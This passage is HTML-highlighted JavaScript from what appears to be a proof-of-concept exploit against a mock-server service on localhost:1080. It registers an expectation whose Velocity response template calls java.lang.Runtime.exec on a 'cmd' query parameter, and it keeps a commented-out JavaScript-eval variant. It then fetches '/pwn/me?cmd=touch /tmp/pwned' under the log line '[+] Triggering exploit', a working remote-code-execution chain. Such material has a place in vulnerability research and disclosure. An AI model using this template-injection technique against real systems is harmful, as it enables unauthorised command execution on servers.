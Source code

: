             <span class="dl">"</span><span class="s2">queryStringParameters</span><span class="dl">"</span><span class="p">:</span> <span class="p">{</span><span class="dl">"</span><span class="s2">cmd</span><span class="dl">"</span><span class="p">:</span> <span class="p">[</span><span class="dl">"</span><span class="s2">.*</span><span class="dl">"</span><span class="p">]}</span>
            <span class="c1">//"queryStringParameters": {"script": [".*"]}</span>
          <span class="p">},</span>
          <span class="dl">"</span><span class="s2">httpResponseTemplate</span><span class="dl">"</span><span class="p">:</span> <span class="p">{</span>
            <span class="dl">"</span><span class="s2">template</span><span class="dl">"</span><span class="p">:</span> <span class="dl">"</span><span class="s2">{ </span><span class="se">\"</span><span class="s2">statusCode</span><span class="se">\"</span><span class="s2">: 200, </span><span class="se">\"</span><span class="s2">body</span><span class="se">\"</span><span class="s2">: </span><span class="se">\"</span><span class="s2">$!request.class.forName('java.lang.Runtime').getRuntime().exec($!request.queryStringParameters.cmd[0])</span><span class="se">\"</span><span class="s2"> }</span><span class="dl">"</span><span class="p">,</span>
            <span class="dl">"</span><span class="s2">templateType</span><span class="dl">"</span><span class="p">:</span> <span class="dl">"</span><span class="s2">VELOCITY</span><span class="dl">"</span>
            <span class="c1">//"template": "return { statusCode: 200, body: String(this.engine.factory.scriptEngine.eval(request.queryStringParameters.script[0])) };",</span>
            <span class="c1">//"templateType": "JAVASCRIPT"</span>
          <span class="p">}</span>
        <span class="p">})</span>
      <span class="p">}).</span><span class="nx">then</span><span class="p">(</span><span class="kd">function</span><span class="p">(</span><span class="nx">response</span><span class="p">)</span> <span class="p">{</span>
        <span class="nx">response</span><span class="p">.</span><span class="nx">text</span><span class="p">().</span><span class="nx">then</span><span class="p">(</span><span class="kd">function</span> <span class="p">(</span><span class="nx">text</span><span class="p">)</span> <span class="p">{</span>
          <span class="nx">console</span><span class="p">.</span><span class="nx">log</span><span class="p">(</span><span class="dl">"</span><span class="s2">PUT</span><span class="dl">"</span><span class="p">,</span> <span class="nx">text</span><span class="p">)</span>
        <span class="p">});</span>
      <span class="p">}).</span><span class="k">catch</span><span class="p">((</span><span class="nx">error</span><span class="p">)</span> <span class="o">=&gt;</span> <span class="p">{</span>
        <span class="nx">console</span><span class="p">.</span><span class="nx">error</span><span class="p">(</span><span class="dl">'</span><span class="s1">Error:</span><span class="dl">'</span><span class="p">,</span> <span class="nx">error</span><span class="p">);</span>
      <span class="p">});</span>

      <span class="nx">setTimeout</span><span class="p">(</span><span class="kd">function</span><span class="p">()</span> <span class="p">{</span>
        <span class="nx">console</span><span class="p">.</span><span class="nx">log</span><span class="p">(</span><span class="dl">"</span><span class="s2">[+] Triggering exploit</span><span class="dl">"</span><span class="p">)</span>
        <span class="kd">var</span> <span class="nx">url</span> <span class="o">=</span> <span class="dl">'</span><span class="s1">http://localhost:1080/pwn/me?cmd=</span><span class="dl">'</span> <span class="o">+</span> <span class="nb">encodeURIComponent</span><span class="p">(</span><span class="dl">'</span><span class="s1">touch /tmp/pwned</span><span class="dl">'</span><span class="p">)</span>
        <span class="c1">//var url = 'http://localhost:1080/pwn/me?script=' + encodeURIComponent('java.lang.Runtime.getRuntime().exec("touch /tmp/pwned")')</span>
        <span class="nx">fetch</span><span class="p">(</span><span class="nx">url</span><span class="p">,</span> <span class="p">{</span>
          <span class="na">mode</span><span class="p">:</span> <span class="dl">'</span><span class="s1">no-cors</span><span class="dl">'</span>
        <span class="p">}).</span><span class="nx">then</span><span class="p">(</span><span class="kd">function</span><span class="p">(</span><span class="nx">response</span><span class="p">)</span> <span class="p">{</span>
          <span class="nx">response</span><span class="p">.</span><span class="nx">text</span><span class="p">().</span><span class="nx">then</span><span class="p">(</span><span class="kd">function</span> <span class="p">(</span><span class="nx">text</span><span class="p">)</span> <span class="p">{</span>
            <span class="nx">console</span><span class="p">.</span><span class="nx">log</span><span class="p">(</span><span class="dl">"</span><span class="s2">GET</span><span class="dl">"</span><span class="p">,</span> <span class="nx">text</span><span class="p">)</span>
          <span class="p">});</span>